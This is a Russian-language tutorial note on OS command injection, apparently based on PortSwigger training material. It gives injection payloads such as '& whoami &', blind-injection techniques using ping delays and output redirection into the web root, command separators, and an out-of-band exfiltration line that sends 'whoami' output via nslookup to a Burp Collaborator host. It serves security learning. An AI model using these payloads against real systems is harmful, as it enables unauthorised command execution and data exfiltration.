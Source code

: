 [OS command injection](https://portswigger.net/web-security/os-command-injection)

Unix binaries: [GTOFBins](https://gtfobins.github.io/)
Windows binaries: [LOLBAS](https://lolbas-project.github.io/)

## Выполнение произвольных команд
Запрос:

	`https://insecure-website.com/stockStatus?productID=381&storeID=29`

Команда:

	stockreport.pl 381 29

Инъекция (можно закодировать в URL)

	& whoami &

Команда примет вид:

	stockreport.pl & whoami & 29

## Полезные команды
![Some useful commands](/_images/OS_command_injection_useful_commands.jpg)
## Слепая инъекция команд
На примере отправки отзыва о сайте:

	mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com

**Временная задержка**

	; ping -c 10 127.0.0.1 ;

**Перенаправления вывода**

Например, если приложение обслуживает статические ресурсы из файловой системы /var/www/static, то можно:

	; whoami > /var/www/static/whoami.txt ;

**Использование out-of-band (OAST) методов**

	; nslookup h0ipdd0o7ubzva6ghoq96993buhl5a.burpcollaborator.net ;

Эксфильтрация `whoami` (%60 == &#0096;):

	; nslookup %60whoami%60.o1qp1jygitgcuf3cj8xz5zi3jupkd9.burpcollaborator.net ;
## Способы инъекции
Следующие разделители работают на Windows и Unix-based системах:

	&
	&& 
	|
	||

Следующие разделители работают только на Unix-based системах:

	;
	newline (0x0a или \n)

Как работают разделители:

	cmd1; cmd2 - cmd2 выполняется в любом случае
	cmd1 && cmd2 - cmd2 выполняется, если cmd1 успешно выполняется
	cmd1 || cmd2 - cmd2 выполняется, если cmd1 возвращает ошибку

В Unix-based системах также можно использовать &#0096; (бэктики) или $:

	` injected command `
	$( injected command )
